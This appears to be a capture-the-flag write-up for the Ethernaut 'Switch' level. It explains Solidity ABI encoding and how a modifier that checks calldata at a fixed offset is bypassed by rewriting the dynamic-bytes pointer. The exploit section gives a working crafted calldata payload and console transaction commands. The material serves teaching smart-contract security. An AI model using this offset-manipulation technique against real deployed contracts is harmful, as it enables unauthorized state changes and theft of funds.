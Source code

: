# Switch

The goal of this level is to flip the switch. We need to set `switchOn` to `true` in order to flip the switch. The only function we can call is `flipSwitch()` because the other two functions are locked behind an `onlyThis` modifier which checks whether `msg.sender == address(this)`. The issue with the `flipSwitch()` function is that it contains the `onlyOff` modifier:
```
modifier onlyOff() {
    // we use a complex data type to put in memory
    bytes32[1] memory selector;
    // check that the calldata at position 68 (location of _data)
    assembly {
        calldatacopy(selector, 68, 4) // grab function selector from calldata
    }
    require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
    _;
}
```
The `onlyOff` modifier checks the calldata starting at position 68 ensuring that the next 4 bytes is the selector of the `turnOffSwitch()` function. At first glance, it seems that the `flipSwitch()` function can only be called with the `turnSwitchOff()` function as its `_data`. However, this isn't true if we are able to manipulate the calldata encoding. 

## Understanding ABI Encoding

The calldata for Solidity functions are encoded using the [Contract ABI Specification](https://docs.soliditylang.org/en/v0.8.11/abi-spec.html) - the standard way to interact with contracts in the Ethereum ecosystem. Data is encoded according to its type, outlined in the specification. There are a few things within this specification that are useful for this level.

The first four bytes of the call data for a function call specifies the function to be called. The signature is defined as the function name with the parenthesised list of parameter types. Parameter types are split by a single comma with no spaces. The return type is not part of this signature.

The encoded arguments follow starting from the fifth byte. Here, we are interested in the `bytes` and `address` types. There is a crucial difference to note between `bytes<M>` and `bytes`. `bytes<M>` is the binary of type `M` bytes where `0 < M <= 32` whereas `bytes` is a *dynamic sized* byte sequence - remember this. Type `address` is equivalent to `uint160`, except for the assumed interpretation and language typing. For computing the function selector, `address` is used.

## The Vulnerability

The flaw here is that the modifier has a hardcoded offset of 68 to fetch the function byte signature from the calldata. The offset is set to 68 because of the data returned when you call `flipSwitch()` using the function byte signature for `turnSwitchOff()`:
```
'0x30c13ade0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000420606e1500000000000000000000000000000000000000000000000000000000'
```
If we start at the 68th byte and get the next 4 bytes we'd have `20606e15`, add `0x` at the front and you have the function byte signature of `turnSwitchOff()`. If we clean up the calldata, seperating the function byte signature and the remaining payload into 32-byte segments we get:
```
Function byte signature: 30c13ade

00: 0000000000000000000000000000000000000000000000000000000000000020
20: 0000000000000000000000000000000000000000000000000000000000000004
40: 20606e1500000000000000000000000000000000000000000000000000000000
```
Here, `30c13ade` is the function selector for `flipSwitch(bytes)`. Since `bytes` is a *dynamic* type, it can consume any number of 32-byte segments. To avoid spilling into other slots and colliding with other arguments passed into the function, the `00` slot is actually a pointer to the calldata slot where the `bytes` value can be found. The ABI for `00` reads, "Hey, go to slot 20 to find the actual value of `bytes`". Slot `20` is the beginning of the `bytes` value, storing the length of the actual bytes since it is of variable length. Slot `40` holds the bytes passed into the function: `20606e15`.

## The Exploit

We can exploit this by passing in a completely different pointer, while keeping the bytes in slot `40` to trick the `onlyOff` modifier:
```
Function byte signature: 30c13ade

00: 0000000000000000000000000000000000000000000000000000000000000060
20: 0000000000000000000000000000000000000000000000000000000000000000
40: 20606e1500000000000000000000000000000000000000000000000000000000
60: 0000000000000000000000000000000000000000000000000000000000000004
80: 76227e1200000000000000000000000000000000000000000000000000000000
```
Here, slot `00` is telling the program to jump to offset `60` instead of `40`. At `60` and `80` we have the value of `_data` which is `76227e12` - the function byte selector for `turnSwitchOn()`. We leave the bytes in slot `40` in order to trick the `onlyOff` modifier. It is vital to note that the EVM has no conception of ABI encoding or function byte signatures.

To pass this level, a contract is not needed; we can do everything we need within the console:
```
const trickData = "0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000";

await sendTransaction({from: player, to: contract.address, data: trickData});

await contract.switchOn();
```